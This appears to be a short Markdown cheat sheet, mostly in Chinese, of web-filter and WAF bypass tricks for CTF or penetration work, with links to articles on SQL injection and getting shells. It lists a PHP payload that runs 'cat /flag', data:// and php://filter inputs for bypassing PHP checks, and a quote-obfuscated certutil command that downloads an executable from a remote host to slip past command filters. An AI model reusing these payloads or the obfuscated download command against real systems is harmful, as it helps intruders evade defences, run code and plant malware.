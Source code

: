 # Web bypass

- [Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)
- 空格绕过 `a=system ('cat /flag');`
- 大小写绕过
- %0a 绕过
- unicode 绕过, `t => \u0074`
- ~ 反码绕过
- [PHP_INCLUDE_TO_SHELL_CHAR_DICT](https://github.com/wupco/PHP_INCLUDE_TO_SHELL_CHAR_DICT)
- splstack 绕过匹配 O 开头的序列化数据； [2023 安洵杯 4 号的罗纳尔多](https://mp.weixin.qq.com/s/azbY19cBgs3MgVdo7i-OhQ)
- \_\_halt_compiler();来结束 php 代码执行流程 同上链接
- [详细|waf 绕过学习](https://mp.weixin.qq.com/s/OeZsKohqe87-ieIuW7L9tA)

[sql 注入 bypass waf 工具（1 月 18 日更新）](https://mp.weixin.qq.com/s/qritLmRwP-Q5OLskxNWSVw)
[Sql注入过安全狗](https://mp.weixin.qq.com/s/Ighou2aYORZ7rGvJfpeeHg)
[实战绕过某WAF+拿shell组合拳](https://mp.weixin.qq.com/s/Q57dOjq279kqOFtSA1mV8Q)
[webshell检测算法实践](https://mp.weixin.qq.com/s/M4umpduFCI50zOO-5080cw)

## bypass filter_var($url, FILTER_VALIDATE_URL)

`?url=http://`

## bypass file_get_contents($text,'r')==="welcome to the zjctf"

`?text=data://test/plain,welcome&file=php://filter/resource=useless.php`

# Cmd bypass

```sh
c""""e""""r""""t""""u""""t""""i""""l.exe -urlcache -split -f http://ip/6666.exe 6666.exe

copy /b 1.jpg+2.jpg 3 /y

```


# Linux shell bypass

[Bypass Linux Shell Restrictions](https://mp.weixin.qq.com/s/8QTax87lorWNnOQR8p1ORQ)

# Sql bypass

https://github.com/Xyntax/waf-bypass/blob/master/payload/sql.txt
https://lexsd6.github.io/2021/01/31/%E5%85%B3%E4%BA%8Esql%E6%B3%A8%E5%85%A5bypass%E6%80%BB%E7%BB%93/#%E6%96%B9%E6%B3%95%E6%9B%BF%E6%8D%A2%E7%BB%95%E8%BF%87